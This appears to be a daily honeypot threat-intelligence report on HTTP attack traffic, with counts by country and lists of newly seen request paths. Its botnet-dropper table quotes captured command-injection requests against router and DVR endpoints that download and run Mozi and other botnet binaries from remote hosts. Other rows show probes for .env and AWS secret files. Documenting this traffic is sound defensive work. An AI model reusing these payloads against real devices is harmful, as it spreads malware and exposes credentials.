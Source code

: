 ```yaml
---
title: "Report: 2025-06-19 "
date: 2025-06-19
desciption: "Report: 2025-06-19" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-19 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 7 dropper URL(s).  

There are 30 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1079 requests were recorded during the day, originating from 7 different countries, with a peak of 278 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 42.226.68.212   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://42.226.68.212:40260/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                   |
| 104.167.221.114 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F104.167.221.114%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbkdvr HTTP/1.1                                                                                |
| 141.98.11.83    | GET /shell?rm arm7;wget http://94.26.90.251/arm7;chmod 777 arm7;./arm7 arm7 HTTP/1.1                                                                                                                                                                                           |
| 103.208.231.153 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                          |
| 144.172.100.214 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.30%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://45.125.66.79/x/tplink+-O-|sh) HTTP/1.1                                                                                                                                                      |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                |
|----:|----------------------:|:---------------------------------------|
| 105 |                     2 | GET /.env-pipenv HTTP/1.1              |
| 106 |                     2 | GET /.env-poetry HTTP/1.1              |
| 107 |                     2 | GET /.env.custom HTTP/1.1              |
| 109 |                     2 | GET /.aws/sts.yml HTTP/1.1             |
| 110 |                     2 | GET /.aws/.secret HTTP/1.1             |
| 111 |                     2 | GET /.env-hidden HTTP/1.1              |
| 112 |                     2 | GET /.env-health HTTP/1.1              |
| 113 |                     2 | GET /.env-hashed HTTP/1.1              |
| 114 |                     2 | GET /.env-filter HTTP/1.1              |
| 115 |                     2 | GET /.env-tokens HTTP/1.1              |
| 116 |                     2 | GET /.env-prisma HTTP/1.1              |
| 117 |                     2 | GET /.env-export HTTP/1.1              |
| 118 |                     2 | GET /.env-secure HTTP/1.1              |
| 119 |                     2 | GET /.env-traces HTTP/1.1              |
| 124 |                     2 | GET /.env-db.env HTTP/1.1              |
| 125 |                     2 | GET /.env-params HTTP/1.1              |
| 126 |                     2 | GET /.env-vitest HTTP/1.1              |
| 127 |                     2 | GET /.env-pepper HTTP/1.1              |
| 128 |                     2 | GET /.env-django HTTP/1.1              |
| 129 |                     2 | GET /.env.dev.js HTTP/1.1              |
| 132 |                     2 | GET /.env.heroku HTTP/1.1              |
| 133 |                     2 | GET /.env-paypal HTTP/1.1              |
| 134 |                     2 | GET /.env-devops HTTP/1.1              |
| 135 |                     2 | GET /.env-escape HTTP/1.1              |
| 163 |                     2 | GET /.env.deploy HTTP/1.1              |
| 164 |                     2 | GET /.env-openid HTTP/1.1              |
| 235 |                     1 | GET /odinhttpcall1750324532 HTTP/1.1   |
| 236 |                     1 | GET /OdinHttpCall1750324532 HTTP/1.1   |
| 237 |                     1 | GET /Odin/http/call1750324532 HTTP/1.1 |
| 368 |                     1 | GET /3478047979 HTTP/1.1               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   278 | US                 |
|  1 |                   110 | GB                 |
|  2 |                    95 | DE                 |
|  3 |                    95 | SG                 |
|  4 |                    68 | JP                 |
|  5 |                    67 | NL                 |
|  6 |                    62 | CN                 |
|  7 |                    48 | BG                 |
|  8 |                    44 | SY                 |
|  9 |                    29 | CA                 |
| 10 |                    21 | NG                 |
| 11 |                    18 | LT                 |
| 12 |                    16 | PL                 |
| 13 |                    12 | IN                 |
| 14 |                    12 | CH                 |
| 15 |                    12 | PH                 |
| 16 |                    11 | AU                 |
| 17 |                     8 | RU                 |
| 18 |                     7 | GH                 |
| 19 |                     7 | RO                 |
| 20 |                     7 | VN                 |
| 21 |                     6 | ZA                 |
| 22 |                     6 | UA                 |
| 23 |                     5 | KR                 |
| 24 |                     5 | HK                 |
| 25 |                     5 | BR                 |
| 26 |                     4 | IL                 |
| 27 |                     4 | BE                 |
| 28 |                     3 | KZ                 |
| 29 |                     3 | SC                 |
| 30 |                     2 | KW                 |
| 31 |                     2 | IE                 |
| 32 |                     1 | AM                 |
| 33 |                     1 | ES                 |
| 34 |                     1 | ID                 |
| 35 |                     1 | CZ                 |
| 36 |                     1 | MX                 |
| 37 |                     1 | IR                 |
| 38 |                     1 | AO                 |
